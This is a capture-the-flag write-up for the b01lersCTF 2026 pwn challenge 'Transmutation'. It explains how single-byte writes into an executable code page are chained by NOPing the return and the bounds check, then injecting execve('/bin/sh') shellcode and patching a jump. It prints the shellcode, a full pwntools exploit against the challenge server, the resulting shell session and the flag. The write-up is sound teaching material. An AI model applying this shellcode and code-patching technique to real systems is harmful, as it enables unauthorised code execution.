





## b01lersCTF 2026 Writeup

<div style="display:flex;align-items:center;width:100%">
<div style="flex:1;text-align:left">
<a href="https://pointerpointer.com/">WoawoWOaw</a>
</div>
<div style="flex:1;text-align:center">
<a href="index.html">Home</a>
</div>
<div style="flex:1;text-align:right">
<a href="THEM500CTF.html">500 Member miniCTF</a></div>
</div>

## Challenge Directory

[Transmutation](#challenge-name-transmutation)


### Challenge Name: `Transmutation`


The Purdue Boilermakers' very own CTF ehhh? Let's see what you got for us b01lers!!

The description for this pwn challenge was quite peculiar, yet it's a great hint for the challenge and its eventual solution, and here it is!

> To turn one program into another... is it even possible?

> Author: [`spacemonkeyy`](https://vaultcord.com/tools/discord-id-lookup?prefill=775859387259420723)


If you would rather like an image (worth a 1000 words!) of the challenge...



It is a shorter exploit this time (as marked by the patronizing "beginner" tag), but it has a lot of interesting quirks and tangents that are really fun to explore, so I hope you enjoy the ride!


In `dist.zip`, the source code + binary + dockerfile + libc + fake flag file were all provided.




Oh I also ran `file` on the binary and here's what we got

```bash
./chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV),
 dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, 
 BuildID[sha1]=ccb2df99403cd7f4ba744d0f617a035c522eda02, for GNU/
 Linux 3.2.0, not stripped
```

As we have the source code, we don't care that it's not stripped, but the fact that it's dynamically linked is interesting, as it means that we can potentially do some dynamic linking shenanigans to pwn the binary, which is always fun!!

Since we already have the libc binaries, the dockerfile wasn't that useful in this specific instance, but here it is if you were curious:

```Dockerfile
FROM --platform=linux/amd64 debian@sha256:f807f4b16002c623115b0247dca6a55711c6b1ae821dc64fb8a2339e4ce2115d AS build

RUN apt-get update && \
apt-get install -y gcc

ENV USER priority-queue
WORKDIR /home/$USER
RUN useradd $USER

COPY ./chall.c .
RUN gcc -no-pie -o chall chall.c

RUN mkdir /out
RUN cp chall /out/chall

FROM --platform=linux/amd64 debian@sha256:f807f4b16002c623115b0247dca6a55711c6b1ae821dc64fb8a2339e4ce2115d AS inner

RUN apt-get update && \
apt-get install -y socat

COPY --from=build /out/chall /app/run
RUN chmod +x /app/run

COPY ./flag.txt /app/flag.txt

FROM pwn.red/jail

COPY --from=inner / /srv

ENV JAIL_MEM=10M
ENV JAIL_TIME=120
ENV JAIL_PORT=1337
```

I guess we can already see that we have no PIE (Position Independent Executable) on the binary, but we do have ASLR on the libc, which means that we will need to leak a libc address in order to calculate the base address of libc in memory if we want to exploit it using the libc binaries.

Here's the rest of the checksec output:

```bash
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

The only protection we really have to care about is NX (Non-Executable Stack), which means that we can't just inject shellcode onto the stack and execute it, but we can still do Return Oriented Programming (ROP) to achieve code execution, which is what I ended up doing in my exploit in a roundabout way.


Ok, now onto the juicy c code and the little quirks we can exploit!

```c
//chall.c

#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>

#define MAIN ((char *)main)
#define CHALL ((char *)chall)
#define LEN (MAIN - CHALL)

int main(void);

void chall(void) {
    char c = getchar();
    unsigned char i = getchar();
    if (i < LEN) {
        CHALL[i] = c;
    }
}

int main(void) {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    mprotect((char *)((long)CHALL & ~0xfff), 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC);

    chall();
    return 0;
}
```

Hmmmm interesting, the permissions of the memory page containing the `chall()` function are set to be executable, which means that we can write to it and then execute it, effectively allowing us to hopefully inject shellcode into the `chall()` and bypass NX!!

In case you were curious about the `mprotect()` function, it is a system call that changes the access protections for a memory region. In this case, it is being used to set the memory page containing the `chall()` function to be readable, writable, and executable. 
<small>You can read more about `mprotect()` in the Linux manual pages: [https://man7.org/linux/man-pages/man2/mprotect.2.html](https://man7.org/linux/man-pages/man2/mprotect.2.html)</small>


The address being passed to `mprotect()` is calculated by taking the address of `chall()`, aligning it down to the nearest page boundary (using bitwise AND with `~0xfff` {'`~`' is the bitwise NOT operator}), and then specifying a size of `0x1000` bytes (which is the size of one memory page). The protection flags `PROT_READ | PROT_WRITE | PROT_EXEC` indicate that the memory region should be readable, writable, and executable.

The `chall()` function itself is also quite interesting, as it allows us to write a single byte to an arbitrary index in the `chall()` function, and my first idea was to try to write shellcode byte by byte into the `chall()` function. 

This was thwarted by the fact that the `chall()` function is only ever invoked once and it also has a limit on how far it can write, the index of which must be less that `MAIN - CHALL`, which is the length of the `chall()` function in bytes. (as the main function directly follows the `chall()` function in memory, which is a consequence of the binary being compiled without PIE)

One intresting thing of note is that there's a second maximum limit imposed by the fact that `i` is an unsigned char, which means that it can only take values from 0 to 255, so even if the `chall()` function was longer than 256 bytes, we still wouldn't be able to write past the 256th byte of the `chall()` function. Rats, there goes my plan of a GOT overwrite and then simply ret2libc like in gatchiarray from [SECCON 14 CTF](https://3dcantaloupe.github.io/writeUps4CTFs/Seccon142025) :(

We can also just double check the addresses either in gdb or a disassembler (I used Binary Ninja) to confirm that the `chall()` function is indeed located before the `main()` function in memory, which is a requirement for this exploit to work.




To solve this challenge, I used the pwntools python library <small> which you can read all about here: [https://docs.pwntools.com/en/stable/about.html](https://docs.pwntools.com/en/stable/about.html) </small> 

To make it easier for myself, I made a helper function to send a byte value and an index to write to, which is basically what the `chall()` function allows us to do.

```python
def write_byte(byte_val, index):
    p.send(byte_val)
    p.send(bytes([index]))
```

Now if there was only a way to call the `chall()` function over and over again, allowing us to arbitrarily write as many bytes as we want.

There's a reason I selected the "disassembly" view in Binja. This view also has the corresponding opcodes next to each assembly instruction, which would help us figure out which bytes to overwrite to get what we want!

What's been really useful for this process in terms of understanding the assembly and the opcodes is the "X86 Opcode and Instruction Reference" at [http://ref.x86asm.net/coder64.html](http://ref.x86asm.net/coder64.html)



For instance, here's the entry for a really famous opcode, the NOP instruction (`0x90` in x86 assembly which stands for "No Operation" {<small> read all about the NOP instruction here: [https://en.wikipedia.org/wiki/NOP_slide](https://en.wikipedia.org/wiki/NOP_slide) </small>}), which as its name suggests, does nothing and is often used in "NOP sleds" to help with shellcode execution. 

To make sure that we are using the correct libc (the one spacemonkeyy provided), we can use `pwninit` and the following command to link the local libc to our challenge binary:

```bash
pwninit --bin ./chall --libc ./libc.so.6

bin: ./chall
libc: ./libc.so.6

warning: failed detecting libc version 
(is the libc an Ubuntu glibc?): 
failed finding version string

copying ./chall to ./chall_patched
running patchelf on ./chall_patched
writing solve.py stub
```

you can also see the difference by running `ldd` on both binaries:

```bash
$ ldd ./chall_patched 

linux-vdso.so.1 (0x00007f38d973b000)
libc.so.6 => ./libc.so.6 (0x00007f38d9552000)
/lib64/ld-linux-x86-64.so.2 (0x00007f38d973d000)

$ ldd ./chall

linux-vdso.so.1 (0x00007f072cfb9000)
libc.so.6 => /usr/lib/x86_64-linux-gnu/libc.so.6 (0x00007f072cd85000)
/lib64/ld-linux-x86-64.so.2 (0x00007f072cfbb000)
```

now onto the fun bits of the exploit development!!

Using gdb, we can disassemble both the `main()` and `chall()` functions to get a better understanding of how they work and how we can exploit them. <small>(ik you can also use Binja for this, but ig gdb is still useful to know where to set breakpoints and stuff)</small>

Since they are so small, here's the full disassembly of both functions:

```assembly
Dump of assembler code for function chall:
   0x0000000000401146 <+0>:     push   rbp
   0x0000000000401147 <+1>:     mov    rbp,rsp
   0x000000000040114a <+4>:     sub    rsp,0x10
   0x000000000040114e <+8>:     call   0x401040 <getchar@plt>
   0x0000000000401153 <+13>:    mov    BYTE PTR [rbp-0x1],al
   0x0000000000401156 <+16>:    call   0x401040 <getchar@plt>
   0x000000000040115b <+21>:    mov    BYTE PTR [rbp-0x2],al
   0x000000000040115e <+24>:    movzx  edx,BYTE PTR [rbp-0x2]
   0x0000000000401162 <+28>:    lea    rax,[rip+0x26]        
# 0x40118f <main>
   0x0000000000401169 <+35>:    lea    rcx,[rip+0xffffffffffffffd6]        
# 0x401146 <chall>
   0x0000000000401170 <+42>:    sub    rax,rcx
   0x0000000000401173 <+45>:    cmp    rdx,rax
   0x0000000000401176 <+48>:    jge    0x40118c <chall+70>
   0x0000000000401178 <+50>:    movzx  eax,BYTE PTR [rbp-0x2]
   0x000000000040117c <+54>:    lea    rdx,[rip+0xffffffffffffffc3]        
# 0x401146 <chall>
   0x0000000000401183 <+61>:    add    rdx,rax
   0x0000000000401186 <+64>:    movzx  eax,BYTE PTR [rbp-0x1]
   0x000000000040118a <+68>:    mov    BYTE PTR [rdx],al
   0x000000000040118c <+70>:    nop
   0x000000000040118d <+71>:    leave
   0x000000000040118e <+72>:    ret
End of assembler dump.
```

and right as the `chall()` function ends, we can see that the `main()` function starts right after it at address `0x40118f`, which means that the `chall()` function is exactly `0x40118f - 0x401146 = 0x49` bytes long, which is important to note as it means that we can only write to the first `0x49` or 73 bytes of the `chall()` function using the provided functionality in the `chall()` function itself.

```assembly
Dump of assembler code for function main:
   0x000000000040118f <+0>:     push   rbp
   0x0000000000401190 <+1>:     mov    rbp,rsp
=> 0x0000000000401193 <+4>:     mov    rax,QWORD PTR [rip+0x2eb6]        
# 0x404050 <stdin@GLIBC_2.2.5>
   0x000000000040119a <+11>:    mov    esi,0x0
   0x000000000040119f <+16>:    mov    rdi,rax
   0x00000000004011a2 <+19>:    call   0x401030 <setbuf@plt>
   0x00000000004011a7 <+24>:    mov    rax,QWORD PTR [rip+0x2e92]        
# 0x404040 <stdout@GLIBC_2.2.5>
   0x00000000004011ae <+31>:    mov    esi,0x0
   0x00000000004011b3 <+36>:    mov    rdi,rax
   0x00000000004011b6 <+39>:    call   0x401030 <setbuf@plt>
   0x00000000004011bb <+44>:    mov    rax,QWORD PTR [rip+0x2e9e]        
# 0x404060 <stderr@GLIBC_2.2.5>
   0x00000000004011c2 <+51>:    mov    esi,0x0
   0x00000000004011c7 <+56>:    mov    rdi,rax
   0x00000000004011ca <+59>:    call   0x401030 <setbuf@plt>
   0x00000000004011cf <+64>:    lea    rax,[rip+0xffffffffffffff70]        
# 0x401146 <chall>
   0x00000000004011d6 <+71>:    and    rax,0xfffffffffffff000
   0x00000000004011dc <+77>:    mov    edx,0x7
   0x00000000004011e1 <+82>:    mov    esi,0x1000
   0x00000000004011e6 <+87>:    mov    rdi,rax
   0x00000000004011e9 <+90>:    call   0x401050 <mprotect@plt>
   0x00000000004011ee <+95>:    call   0x401146 <chall>
   0x00000000004011f3 <+100>:   mov    eax,0x0
   0x00000000004011f8 <+105>:   pop    rbp
   0x00000000004011f9 <+106>:   ret
End of assembler dump.
```


I set a breakpoint in the middle of the `chall()` function (specifically at the instruction `cmp    rdx,rax` (chall+45) which is where the index check happens) to see how the values change as we write bytes to the `chall()` function.

right as we predicted, the function jumps to the `nop` instruction at the end of the `chall()` function if we try to write to an index that is greater than or equal to `0x49` (73 in decimal)

Now I was pondering ways to get past this check and allow myself to write more bytes, but I still needed a way to call the `chall()` function multiple times. This would allow me to write more bytes to the `chall()` function and eventually overwrite the `jge` (`0x7d`) and `al` (`0x14`, <small> which is the register `jge` checks against </small>) opcodes. I wonder if I can just NOP (`0x90`) them both out?

wait the problem is that the `chall()` returns back to the `main()` right after it finishes executing, what if it just... didn't do that?

Thus, I sent `0x90` to index 72 (the `ret` aka return instruction) to skip the return and continue executing whatever's after it.

```python
write_byte(b'\x90', 72)
```

Wouldn't you count your lucky ducks that the very next instruction after the `chall()` function happens to be the `main()` function, allowing us to just continue executing `main()` eh? yes you should, because that is exactly what happens!!

Here's the end of the disassembly of the `chall()` function now that we have NOPed out the `ret` instruction:

```assembly
   0x000000000040118c <+70>:    nop
   0x000000000040118d <+71>:    leave
   0x000000000040118e <+72>:    nop
```

We can now NOP out instructions at chall+48 and chall+49 (which are the `jge` and `al` opcodes respectively) to bypass the index check and allow us to write as many bytes as we want to the `chall()` function and 4096 - 73 = 4023 bytes after that!! (which is the size of the RWX memory page minus the bytes we have already used in the `chall()` function)


I got a segfault when I tried to write to index 48 (the `jge` opcode) before index 49 (the `al` opcode), but when I switched the order and wrote to index 49 first, it worked just fine, so I assume that opcode `0x14` (the `al` register) can't be present by itself, but luckily opcode `0x7d` (the `jge` instruction) can be by itself!

```python
write_byte(b'\x90', 49)
write_byte(b'\x90', 48)
```

At this point, we have an arbritrary write primitive to the RWX memory page containing the `chall()` function, which means that we can just write shellcode into it and execute it to hopefully pop a shell!



To find a place to put the shellcode, I scoured through Binary ninja, and found a nice spot at `.fini` section, which is right after `main()` and before the `.rodata` section starts.

`chall()` had an offset of `+0x3146` in Binja, and since I only needed to get past everything until the `.fini` section, I added `0xBA` (186 in decimal) to that offset to get a nice round `+0x3200` (or `0x000000000040118e` in absolute address), a perfect place to put our shellcode!

I just searched for some simple execve shellcode that would execute `/bin/sh` and found a 23-byter on exploit-db: [https://www.exploit-db.com/exploits/46907](https://www.exploit-db.com/exploits/46907)

```
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05
```

and here's its disassembly if you are curious:

```assembly
   0:   48 31 f6                xor    rsi,rsi
   3:   56                      push   rsi
   4:   48 bf 2f 62 69 6e 2f    movabs rdi,0x68732f2f6e69622f
   b:   2f 73 68 
   e:   57                      push   rdi
   f:   54                      push   rsp
  10:   5f                      pop    rdi
  11:   6a 3b                   push   0x3b
  13:   58                      pop    rax
  14:   99                      cdq    
  15:   0f 05                   syscall 
```
<small>Source: [https://defuse.ca/online-x86-assembler.htm#disassembly2](https://defuse.ca/online-x86-assembler.htm#disassembly2) </small>

With a short loop, I write the 23 bytes of shellcode using our arbritrary write primitive.

```python
for i, byte in enumerate(shellcode):
    write_byte(bytes([byte]), start_offset + i)
```

Now all that's left is to trigger the execution of the shellcode by overwriting the start of `main()` (index 73) with `0x70`, which is the offset to jump (where our shellcode is). We can then also overwrite the NOP at the end of `chall()` (index 72) with a jump instruction (`0xeb`) to jump to the offset we just wrote at index 73, which will then jump us to our shellcode!

One interesting thing to note here is that just like overwriting the `jge` and `al` opcodes, we also have to write the jump instruction (`0xeb`) after we write the offset to jump to (`0x70`), or else there's a segfault yet again.


```python
write_byte(b'\x70', 73)
write_byte(b'\xeb', 72)
```


And that's it! Running this exploit on remote now pops us a shell, which we can then use to cat out the flag!!!

```bash
$ python exp.py 
[*] './chall_patched'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    RUNPATH:    b'.'
    Stripped:   No
[*] './libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
[+] Opening connection to transmutation.opus4-7.b01le.rs on port 8443: Done
[*] Switching to interactive mode
$ ls
chall
flag.txt
run
$ cat f*
bctf{CPU_0pt1m1z3r5_H4T3_th15_0n3_51mp13_tr1ck_5519225335}
```


Here's my full exploit for this challenge in case ya wanna see it all in one place:

```python
#!/usr/bin/env python3

from pwn import *

context.binary = binary = './chall_patched'
context.terminal = ['tmux', 'splitw', '-h']

libc = ELF("./libc.so.6")
elf = ELF(binary)

# p = process(binary)
p = remote('transmutation.opus4-7.b01le.rs', 8443, ssl=True)

script = '''
b *(chall+24)
'''

def write_byte(byte_val, index):
    p.send(byte_val)
    p.send(bytes([index]))

if args.GDB:
	gdb.attach(p, gdbscript=script)
	
# p.send(b'\x90')
# p.send(chr(72))
write_byte(b'\x90', 72)

# p.send(b'\x90') 
# p.send(chr(49))
write_byte(b'\x90', 49)

# p.send(b'\x90') 
# p.send(chr(48))
write_byte(b'\x90', 48)


shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
start_offset = 186

for i, byte in enumerate(shellcode):
    write_byte(bytes([byte]), start_offset + i)


write_byte(b'\x70', 73)
write_byte(b'\xeb', 72)

p.interactive()
```

Finally, the elusive flag has been revealed!! This was quite an interesting challenge to solve, especially with the unique arbitrary write primitive and overwriting opcodes directly to change the control flow of the program, which is not something you see in every pwn challenge!

I hope you enjoyed reading this writeup as much as I enjoyed solving the challenge and writing the exploit + this writeup! If you didn't already know about the wonderful world of opcodes, I hope you learned something!

p.s. I love the flag, yes it's quite hilarious to think that this is now a whole new program that the compiler originally didn't intend for, a WEirD machine! (please reach out to me if you get that reference)

### Flag: ```bctf{CPU_0pt1m1z3r5_H4T3_th15_0n3_51mp13_tr1ck_5519225335}```


<div style="display:flex;align-items:center;width:100%">
<div style="flex:1;text-align:left">
<a href="THEM500CTF.html">500 Member miniCTF</a>
</div>
<div style="flex:1;text-align:center">
<a href="index.html">Home</a> /
<a href="Seccon142025.html#">Top</a>
</div>
<div style="flex:1;text-align:right">
<a href="OSUGaming2025.html">OSU Gaming 2025</a></div>
</div>